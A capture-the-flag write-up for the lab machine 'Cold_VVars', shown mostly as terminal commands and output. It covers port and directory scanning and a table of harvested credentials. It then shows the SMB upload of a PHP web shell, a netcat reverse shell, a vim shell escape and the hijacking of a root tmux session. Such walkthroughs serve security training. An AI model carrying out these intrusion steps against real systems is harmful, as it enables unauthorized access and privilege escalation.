


Cold_VVars - Write Up

Table of Contents
| Link | Level | Creator |
|---|---|---|
| Here | Medium | user |
Reconn
╰─ lanfran@parrot ❯ map 10.10.1.67 ─╯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 17:39 CEST
Nmap scan report for 10.10.1.67
Host is up (0.14s latency).
Not shown: 808 closed ports, 188 filtered ports
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open http Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host: INCOGNITO
Host script results:
|_clock-skew: mean: 2m04s, deviation: 1s, median: 2m03s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
| Computer name: incognito
| NetBIOS computer name: INCOGNITO\x00
| Domain name: \x00
| FQDN: incognito
|_ System time: 2021-07-10T15:42:29+00:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-07-10T15:42:29
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.65 seconds
╰─ lanfran@parrot ❯ scan http://10.10.1.67:8080/ ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.1.67:8080/
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2021/07/10 17:39:52 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/dev (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/07/10 17:40:29 Finished
===============================================================
╰─ lanfran@parrot ❯ scan http://10.10.1.67:8080/dev -x txt,php ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.1.67:8080/dev
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Extensions: txt,php
[+] Timeout: 10s
===============================================================
2021/07/10 18:20:31 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.hta (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/note.txt (Status: 200)
===============================================================
2021/07/10 18:20:54 Finished
===============================================================
╰─ lanfran@parrot ❯ scan http://10.10.1.67:8082/ ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.1.67:8082/
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2021/07/10 17:42:33 Starting gobuster
===============================================================
/login (Status: 200)
/Login (Status: 200)
/static (Status: 301)
===============================================================
2021/07/10 17:43:23 Finished
===============================================================

Username Password
Tove Jani
Godzilla KONGistheKING
SuperMan snyderCut
ArthurMorgan DeadEye
=======================================
| Share Enumeration on 10.10.1.67 |
=======================================
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
SECURED Disk Dev
IPC$ IPC IPC Service (incognito server (Samba, Ubuntu))
Foothold - User
╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan ─╯
Enter WORKGROUP\ArthurMorgan's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Mon Mar 22 00:04:28 2021
.. D 0 Thu Mar 11 13:52:29 2021
note.txt A 45 Thu Mar 11 13:19:52 2021
7743660 blocks of size 1024. 4447240 blocks available
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> cd ..
smb: \> ld
ld: command not found
smb: \> ls
. D 0 Mon Mar 22 00:04:28 2021
.. D 0 Thu Mar 11 13:52:29 2021
note.txt A 45 Thu Mar 11 13:19:52 2021
7743660 blocks of size 1024. 4447240 blocks available
smb: \> exit
ca
╭─ ~/Desktop/THM/cold_vvars ▓▒░ ░▒▓ ✔ 15s 10.9.4.9 ─╮
╰─ lanfran@parrot ❯ cat note.txt ─╯
Secure File Upload and Testing Functionality
╭─ ~/Desktop/THM/cold_vvars ▓▒░ ░▒▓ ✔ 10.9.4.9 ─╮
╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan ─╯
Enter WORKGROUP\ArthurMorgan's password:
Try "help" to get a list of possible commands.
smb: \> put shell_online.php
putting file shell_online.php as \shell_online.php (27.9 kb/s) (average 27.9 kb/s)
╰─ lanfran@parrot ❯ nc -nlvp 1337 ─╯
listening on [any] 1337 ...
connect to [10.9.4.9] from (UNKNOWN) [10.10.1.67] 42472
bash: cannot set terminal process group (1008): Inappropriate ioctl for device
bash: no job control in this shell
www-data@incognito:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@incognito:/var/www/html/dev$ whoami
whoami
www-data
www-data@incognito:/var/www/html/dev$ ls -lRta /home
ls -lRta /home
/home:
total 16
drwxr-xr-x 8 marston marston 4096 May 29 11:08 marston
drwxr-xr-x 6 ArthurMorgan ArthurMorgan 4096 May 28 13:23 ArthurMorgan
drwxr-xr-x 25 root root 4096 May 28 12:59 ..
drwxr-xr-x 4 root root 4096 Mar 21 21:46 .
And we can read the user’s flag.
Root
We switched to arthurmorgan with the password, and run the command netstat -tulwn
ArthurMorgan@incognito:/var/www/html/dev$ netstat -tulwn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 0.0.0.0:139 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:8082 0.0.0.0:* LISTEN
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN
tcp 0 0 127.0.0.1:22 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:445 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:4545 0.0.0.0:* LISTEN
tcp6 0 0 :::139 :::* LISTEN
tcp6 0 0 :::8080 :::* LISTEN
tcp6 0 0 :::445 :::* LISTEN
udp 0 0 127.0.0.53:53 0.0.0.0:*
udp 0 0 10.10.138.243:68 0.0.0.0:*
udp 0 0 10.10.255.255:137 0.0.0.0:*
udp 0 0 10.10.138.243:137 0.0.0.0:*
udp 0 0 0.0.0.0:137 0.0.0.0:*
udp 0 0 10.10.255.255:138 0.0.0.0:*
udp 0 0 10.10.138.243:138 0.0.0.0:*
udp 0 0 0.0.0.0:138 0.0.0.0:*
raw6 0 0 :::58 :::* 7
ArthurMorgan@incognito:~$ nc -nlvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 37376 received!
ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
:shellhell=/bin/sh
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:shell
id
uid=1002(marston) gid=1003(marston) groups=1003(marston)
And running ps -eaf --forest we can see that there are some sessions running on it, so let’s check them!
To attach your shell to the session, you need to use tmux attach-session -t 0
And after exiting some sessions, we get a root session!!

And we rooted the machine!
That’s all from my side, hope you find this helpful!
Read other posts